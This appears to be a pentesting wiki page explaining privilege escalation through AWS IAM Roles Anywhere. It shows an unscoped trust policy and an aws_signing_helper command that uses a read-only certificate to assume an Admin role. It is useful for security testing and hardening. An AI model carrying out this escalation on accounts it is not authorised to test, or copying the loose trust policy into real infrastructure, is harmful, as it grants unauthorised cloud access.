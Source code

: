 # AWS - IAM Roles Anywhere Privesc

{{#include ../../../../banners/hacktricks-training.md}}

AWS IAM RolesAnywhere allows workloads outside AWS to assume IAM roles using X.509 certificates. But when trust policies aren't properly scoped, they can be abused for privilege escalation.

This policy lacks restrictions on which trust anchor or certificate attributes are allowed. As a result, any certificate tied to any trust anchor in the account can be used to assume this role.

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Allow",
      "Principal": {
        "Service": "rolesanywhere.amazonaws.com"
      },
      "Action": [
        "sts:AssumeRole",
        "sts:SetSourceIdentity",
        "sts:TagSession"
      ]
    }
  ]
}

```

To privesc, the `aws_signing_helper` is required from https://docs.aws.amazon.com/rolesanywhere/latest/userguide/credential-helper.html

Then using a valid certificate the attacker can pivot into the higher privilege role 

```bash
aws_signing_helper credential-process \
  --certificate readonly.pem \
  --private-key readonly.key \
  --trust-anchor-arn arn:aws:rolesanywhere:us-east-1:123456789012:trust-anchor/ta-id \
  --profile-arn arn:aws:rolesanywhere:us-east-1:123456789012:profile/default \
  --role-arn arn:aws:iam::123456789012:role/Admin
```


### References

- https://www.ruse.tech/blogs/aws-roles-anywhere-privilege-escalation/

{{#include ../../../../banners/hacktricks-training.md}}



